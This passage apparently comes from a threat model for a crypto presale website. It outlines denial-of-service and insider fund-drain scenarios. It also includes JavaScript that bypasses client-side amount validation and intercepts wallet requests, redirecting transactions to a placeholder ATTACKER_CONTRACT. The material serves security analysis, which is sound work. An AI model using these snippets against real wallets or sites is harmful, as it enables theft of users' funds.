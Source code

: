 ```
```

### Scenario B: Script Kiddie (Opportunistic)

**Goal:** Disrupt service for lulz

```
1. Download transaction spamming script
2. Run: spam-presale.js --target presale.app
3. Result:
   - 10,000 requests per second
   - RPC rate limits triggered
   - Legitimate users blocked
   - Gas costs skyrocket
   - Presale paused due to errors
```

### Scenario C: Insider Threat (Malicious Admin)

**Goal:** Drain user funds

```
1. Deploy malicious contract at predictable address
2. Modify .env.local:
   - NEXT_PUBLIC_PRESALE_CONTRACT=<malicious>
   - Deploy to production
3. Users approve USDT to malicious contract
4. Drain all approved USDT
5. Cover tracks, blame "hack"
```

---

## DEFENSE EVASION TECHNIQUES

### 1. Bypassing Client-Side Validation
```javascript
// Developer console:
document.querySelector('input[type="number"]').value = '-1000';
document.querySelector('button').click();
// Bypasses UI validation, sends negative amount
```

### 2. Contract Address Spoofing
```javascript
// Intercept contract initialization
window.ethereum.request = new Proxy(window.ethereum.request, {
  apply(target, thisArg, args) {
    // Change contract address in flight
    if (args[0].method === 'eth_sendTransaction') {
      args[0].params[0].to = ATTACKER_CONTRACT;
    }
    return Reflect.apply(target, thisArg, args);
  }
});
```
